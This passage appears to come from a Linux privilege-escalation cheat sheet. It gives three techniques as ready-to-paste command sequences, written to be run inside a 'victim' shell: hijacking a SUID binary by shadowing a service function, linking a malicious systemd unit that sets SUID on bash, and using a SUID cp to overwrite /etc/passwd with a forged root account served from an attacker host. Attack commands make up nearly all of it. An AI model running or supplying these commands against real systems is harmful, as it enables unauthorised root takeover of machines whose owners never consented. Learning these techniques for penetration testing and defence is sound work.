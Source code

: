 Example 4 (With full bin path)

Privilege Escalation

```
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/webserver-status
ls -la /bin/tools/webserver-status

Test the SUID Binary 

/bin/tools/webserver-status
strings /bin/tools/webserver-status
Output Example: /usr/sbin/service apache2 status

Absue the SUID Binary

fucntion /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/bin/tools/webserver-status
id && whoami
```

Example 5 (/bin/systemctl)

Privilege Escalation

Copy line by line inside the victim low priv shell
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
/bin/bash -p
id && whoami
```

Example 5 (Copy - /bin/cp)

Privilege Escalation

Victim
```
find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Copy the contents of /etc/passwd to your local machine inside a new file called "passwd"
```
Attacker
```
Run the following command locally: openssl passwd -1 -salt ignite NewRootPassword
Copy the output
Add the following inside the local passwd file
echo "root2:<output>:0:0:root:/root:/bin/bash" >> passwd // Replace <output> with the copied output
python -m SimpleHTTPServer 9000
```
Victim
```
wget -O /tmp/passwd http://10.10.10.10:9000/passwd
cp /tmp/passwd /etc/passwd
su root2
Password: NewRootPassword
id && whoami

// Replace Attacker IP & Port
```